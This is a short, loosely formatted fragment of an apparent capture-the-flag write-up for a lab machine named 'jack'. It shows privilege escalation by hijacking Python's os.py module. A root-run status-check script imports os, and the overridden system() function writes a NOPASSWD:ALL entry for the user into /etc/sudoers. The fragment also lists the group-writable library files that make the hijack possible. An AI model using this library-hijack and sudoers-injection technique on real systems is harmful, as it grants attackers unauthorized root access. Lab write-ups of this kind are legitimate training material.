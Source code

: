 <br>

<h3>checker.py</h3>
<p><code>os</code></p>

```bash
jack@jack:/opt/statuscheck$ ls
checker.py  output.log
ack@jack:/opt/statuscheck$ cat checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```

<br>

<h3>output.log</h3>

```bash
jack@jack:/opt/statuscheck$ cat output.log | grep http
Link: <http://jack.thm/index.php/wp-json/>; rel="https://api.w.org/"
```

<br>

```bash

<p>added to <code>os.py</code></p>

```bash
def system(smt):
    import subprocess
    subprocess.call("printf '\njack ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers ", shell = True)
```

```bash
jack@jack: find / -group family 2>/dev/null
/usr/lib/python2.7/_threading_local.py
/usr/lib/python2.7/plistlib.pyc
/usr/lib/python2.7/stringprep.py
/usr/lib/python2.7/ihooks.pyc
/usr/lib/python2.7/weakref.py
/usr/lib/python2.7/sgmllib.pyc
/usr/lib/python2.7/os.py
/usr/lib/python2.7/posixpath.py
/usr/lib/python2.7/copy_reg.py
/usr/lib/python2.7/bdb.py
/usr/lib/python2.7/smtpd.pyc
/usr/lib/python2.7/dircache.pyc
/usr/lib/python2.7/bisect.pyc
/usr/lib/python2.7/fnmatch.py
/usr/lib/python2.7/heapq.py
/usr/lib/python2.7/struct.pyc
/usr/lib/python2.7/fpformat.py
/usr/lib/python2.7/hotshot
/usr/lib/python2.7/shutil.py
...
jack@jack:/$ nano /usr/lib/python2.7/os.py
jack@jack:/$ tail /usr/lib/python2.7/os.py
```
